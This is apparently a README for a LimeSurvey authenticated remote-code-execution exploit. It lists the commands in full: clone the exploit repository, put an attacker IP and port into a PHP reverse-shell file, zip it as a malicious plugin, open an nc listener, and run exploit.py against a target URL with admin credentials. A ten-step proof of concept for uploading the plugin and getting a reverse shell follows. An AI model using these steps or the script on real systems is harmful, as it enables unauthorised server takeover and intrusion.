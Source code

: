 ### ***You can use exploit.py for automatic exploitation.***
git clone https://github.com/Y1LD1R1M-1337/Limesurvey-RCE.git
cd Limesurvey-RCE
nano php-rev.php                          # Add the IP and the port for your reverse_shell:   Line 5 $ip = '192.168.49.68';     Line 6    $port = 4444;    
zip config.xml php-rev.php > lime.zip     # Create a zip file containing both the config.xml + php-rev.php
nano exploit.py                           # Add the proper location of your zip file: Line 64: filehandle = open("/home/kali/Limesurvey-RCE/lime.zip",mode = "rb") 
nc -lvnp 4444
python exploit.py http://customers-survey.marketing.pg admin password 80

#### Usage: python exploit.py URL username password port
#### Example Usage: python exploit.py http://192.26.26.128/limesurvey admin password 80

**LimeSurvey Authenticated RCE**
Proof of Concept:
1. Create your files (config.xml and php reverse shell files)
2. Create archive with these files
3. Login with credentials
4. Go Configuration -> Plugins -> Upload & Install
5. Choose your zipped file
6. Upload
7. Install
8. Activate plugin
9. Start your listener
10. Go url+{upload/plugins/#Name/#Shell_file_name}
11. Get reverse shell :shipit:

### ***You can use exploit.py for automatic exploitation.***
#### Usage: python exploit.py URL username password port
#### Example Usage: python exploit.py http://192.26.26.128/limesurvey admin password 80


